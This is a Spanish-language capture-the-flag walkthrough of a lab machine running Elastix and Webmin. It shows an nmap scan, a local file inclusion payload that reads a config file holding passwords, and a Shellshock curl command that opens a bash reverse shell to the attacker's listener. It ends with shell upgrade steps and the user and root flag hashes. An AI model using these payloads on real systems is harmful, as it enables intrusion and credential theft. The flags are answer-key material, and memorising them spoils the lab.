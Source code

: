 
![[ 20250719142538.png]](beep-images/20250719142538.png)

# NMAP

primero realizamos un escaneo de nmap. pero en este caso a diferencia de mis otros writeups vamos a cambiar el método

normalmente realizamos un primer escaneo básico para encontrar los puertos abiertos y después lanzamos un escaneo son scripts básicos de nmap para encontrar servicios y versiones. Esto lo hacemos para que el escaneo básico sea rápido y posteriormente conseguimos un archivo al que llamamos targeted donde tenemos la informacion bien agrupada y fácil de leer.

En este caso debido a que la cantidad de puertos es enorme vamos a realizar ambos escaneos a la vez, es cierto que tardara mas en darnos el resultado pero con esto ganamos el esperar tan solo una vez y no tener que estar en dos escaneos esperando demasiado tiempo. de todas formas podeis realizar el escaneo como vosotros queráis no es estrictamente necesario imitar esta técnica.

```bash
nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.129.183.206 -sC -sV -oN targeted
```

![[ 20250719135701.png]]
![[ 20250719135718.png]]

# Puerto 80

>(Al principio puede dar fallo la pagina web, recomendación: poner en la URL "about:config" y en la barrita de búsqueda "security.tls.version.min" )

![[ 20250719142158.png]]

>con estos cambios no debería haber problema

como siempre que una maquina tiene un puerto 80 con http / https abiertos empezamos por aqui 

![[ 20250719135953.png]]

vemos esta pagina web de elastix

buscando un poco en exploitDB y varias paginas de google conseguimos encontrar esta vulnerabilidad "Elastix 2.2.0 - 'graph.php' Local File Inclusion" 

es un LFI que segun exploitDB el vector de ataque seria:

```pl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

probamos a inyectar esto en la pagina web 


![[ 20250719140246.png]]

![[ 20250719140400.png]]

podemos ver líneas interesantes con usuarios y contraseñas


en el puerto 80 si que conseguimos acceso pero no nos sirve de mucho pero en el puerto 10000 no conseguimos acceso aunque si que vemos por URL lo siguiente

https://10.129.183.206:10000/session_login.cgi

un .cgi por el que podriamos tratar de realizar un ataque shellsock 

# Shellshock

en nuestra maquina atacante abrimos un puerto de escucha con nc

```bash
nc -nlvp 4444
```

![[ 20250719141259.png]]

y mientras estamos en escucha lanzamos el ataque shellshock 

```bash
curl --tlsv1.0 --tls-max 1.0 -k -A "() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.48/4444 0>&1" https://10.129.183.206:10000/session_login.cgi &>/dev/null
```



tenemos shell como root 

![[ 20250719141324.png]]

# Tratamiento de Shell

como siempre vamos a tratar la shell para trabajar comodos

```bash
which python
```

vemos que python existe ya que esta en el directorio /usr/bin/pyton

asi que utilizamos el comando

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

despues suspendemos la shell con Ctrl +Z 

utilizamos 
```bash
stty raw -echo; fg
```

y ponemos 
```bash
export TERM=xterm
```

# Flags

una vez tenemos la shell practica vamos a por las flags

## user

![[ 20250719141718.png]]

user :  f39e9e4509649148e06e50b0e2a1a5cd

## root

![[ 20250719141808.png]]

root : 06673369bab439c578238b14b27fbc96

